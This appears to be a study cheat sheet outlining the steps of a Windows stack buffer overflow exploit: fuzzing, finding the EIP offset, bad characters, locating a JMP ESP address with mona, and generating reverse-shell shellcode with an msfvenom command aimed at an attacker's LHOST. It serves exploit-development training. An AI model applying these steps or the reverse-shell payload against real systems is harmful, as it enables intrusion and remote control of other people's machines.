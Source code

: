 ### Fuzz buffer length

Manually or by using a Python script.

### Find EIP offset

`msf-pattern_create -l [length]`

Find EIP value, then `msf-pattern_offset -l [length] -q [EIP-query]`

### Determine ‘slack space’

Does the exploit code (and prior to that, your list of badchars) fit AFTER `EIP`? Can we reference it there? Alternatively, fit the exploit code and/or list of badchars in the buffer itself.

### Find bad chars

Good [overview](https://bulbsecurity.com/finding-bad-characters-with-immunity-debugger-and-mona-py/) provided here. I prefer doing it manually.

### Find suitable memory address

### Find opcode

Find a suitable instruction `msf-nasm_shell`

```
nasm > jmp esp
00000000  FFE4              jmp esp
```

> Note: Try call if jmp is not found!

### Find address

In Unity debugger with Mona find a module without protections. `!mona modules`

Then find the addresses to place in `EIP`. `!mona find -s '\xff\xe4' -m module.dll`

> Note: Mona has some additional, powerful features to find a suitable memory address. You can use for example !mona jmp -r esp -cpb "BADCHARS" to find any JMP ESP or CALL ESP, whilst leaving out addresses with bad characters. Note that Mona returns addresses for all modules by default, so you still have to look at the protections.

Addresses in little endian format, so address `0xabcdef10` becomes `\x10\xef\xcd\xab`.

### Generate shellcode

`msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT EXITFUNC=thread -f py -b '\x00'`

### Add NOP sled

Just to ensure the payload is referenced correctly.

`nopsled = '\x90' * 16`
